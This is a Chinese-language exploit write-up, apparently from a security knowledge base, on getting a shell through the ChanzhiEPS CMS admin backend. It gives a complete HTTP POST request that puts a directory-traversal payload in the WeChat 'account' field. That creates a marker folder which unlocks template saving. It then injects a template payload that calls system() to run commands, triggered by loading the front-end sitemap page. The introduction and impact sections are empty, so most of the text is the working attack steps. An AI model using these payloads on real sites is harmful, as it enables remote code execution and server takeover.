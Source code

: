 禅知 后台getshell
=================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

后台存在模板编辑，但是如果保存的话需要创建一个/system\\tmp\\xjrg.txt文件，那么我们找到一个可以创建任意文件的地方就

![](./.resource/禅知后台getshell/media/rId24.png)

在/system/module/wechat/model.php

![](./.resource/禅知后台getshell/media/rId25.png)

\$qrcodeFile未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始ID的地方写入穿越的文件路径

![](./.resource/禅知后台getshell/media/rId26.png)

    POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
    Content-Length: 120
    Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
    X-Forwarded-For: 8.8.8.8
    Connection: close

    type=subscribe&name=123&account=..%2F..%2F..%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0

点一下二维码，再随便传一张图片，可以看到创建了一个xjrg.txt文件夹

![](./.resource/禅知后台getshell/media/rId27.png)

现在我们再去编辑模板，{!echo(system(\'ipconfig\'))},可以直接写入一句话

![](./.resource/禅知后台getshell/media/rId28.png)

然后在访问前台

http:/0-sec.org/chanzhieps/www/index.php/sitemap/

![](./.resource/禅知后台getshell/media/rId29.png)

